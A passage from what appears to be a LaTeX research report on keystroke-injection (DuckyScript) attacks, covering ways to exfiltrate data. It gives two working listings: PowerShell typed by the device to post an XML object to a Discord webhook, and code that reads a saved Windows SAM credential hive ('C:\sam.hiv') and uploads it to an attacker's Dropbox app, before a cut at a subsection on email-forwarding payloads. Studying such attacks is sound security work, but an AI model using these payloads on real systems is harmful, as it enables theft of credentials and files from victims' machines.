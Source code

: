 One example of sending an Extensible Markup Language (XML) object to a discord webhook given the webhook address and the content for the XML object:
\begin{lstlisting}[caption={Send an XML object through PowerShell}, captionpos=b]
STRING $xmlObject = [xml]$xmlContent
ENTER
STRING $Payload = @{xml = $xmlObject}
ENTER
STRING $Json = @{content = $Payload | ConvertTo-Json } | ConvertTo-Json	
ENTER
STRING Invoke-RestMethod -Uri $Webhook -Method Post -Body $Json -ContentType 'application/json'
ENTER
\end{lstlisting}

This approach would also be possible with a custom server by replacing the webhook with the server address.

Another possibility is to use Dropbox apps. This requires a Dropbox account. Once logegd in to the app concolse, a new app can be created. Before generating the access token, the file.content.write permissions have to be given to ensure that file can actually be uploaded. From there the DuckyScript code looks like this;

\begin{lstlisting}[caption={Send any file to a Dropbox app}, captionpos=b]
STRINGLN $accessToken = "<DROPBOX_ACCESS_TOKEN>"
STRINGLN $file = "C:\sam.hiv"
STRINGLN $authHeader = @{Authorization = "Bearer $accessToken"}
STRINGLN $uploadUrl = "https://content.dropboxapi.com/2/files/upload"
STRINGLN $dropboxFilePath = "/omg-test"
STRINGLN $headers = @{}
STRINGLN $headers.Add("Authorization", "Bearer $accessToken")
STRINGLN $headers.Add("Dropbox-API-Arg", '{"path":"' + $dropboxFilePath + '","mode":"add","autorename":true,"mute":false}')
STRINGLN $headers.Add("Content-Type", "application/octet-stream")
STRINGLN $fileContent = [System.IO.File]::ReadAllBytes($file)
STRINGLN Invoke-RestMethod -Uri $uploadUrl -Headers $headers -Method Post -Body $fileContent
\end{lstlisting}



\subsection{Payloads}

\subsubsection{Register Email Forwarding}

